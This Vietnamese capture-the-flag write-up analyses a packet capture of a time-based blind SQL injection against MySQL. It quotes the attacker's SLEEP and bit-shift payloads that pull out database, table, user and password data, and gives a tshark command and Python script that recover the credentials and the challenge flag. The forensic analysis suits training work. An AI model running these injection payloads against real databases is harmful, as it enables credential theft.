


# exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server


- Xét đoạn mysql sau:

```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	- ASCII (char): chuyển kí tự sang mã ASCII
	
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy ví dụ 3 gói tin delay khoảng 3 (s), attacker dùng để brute database_name
	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 6 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 5 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 2 & 1) * 3)

			97 >> 6  & 1 == 1 ==> SLEEP(3)
			97 >> 5  & 1 == 1 ==> SLEEP(3)
			97 >> 2  & 1 == 1 ==> SLEEP(3)

		Mã ASCII(97) = 'a' ==> chữ cái đầu tiên của database_name ở query trên là a
	```
		

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker (trong TH đang xét khoảng 2-3s) có thể dễ dàng bruteforce được database_name.

- Ta tiếp tục xét đoạn mysql sau:


	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)



- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name'] 
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp)
		if re.search('SELECT user',temp):
			user.append(_regextemp)
		else:
			passwd.append(_regextemp)

def rev(arr): # vd: arr = [6,5,2] ==> chr((1 << 6) + (1 << 5) + (1 << 2)) = 'a'
	result = 0
	for i in arr:
		result += (2 ** int(i)) # 1 << i tương đương với 2 mũ i
	return chr(result)

def Decode(msg):
	current = 1
	result = ''
	temp = []
	for arr in msg:
		if(int(arr[0][0]) == current):
			temp.append(arr[0][1])
		else:
			result += rev(temp)
			temp = [] # reset temp
			temp.append(arr[0][1])
			current+=1
		if(arr == msg[-1]): 
			result += rev(temp)

	return result


print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```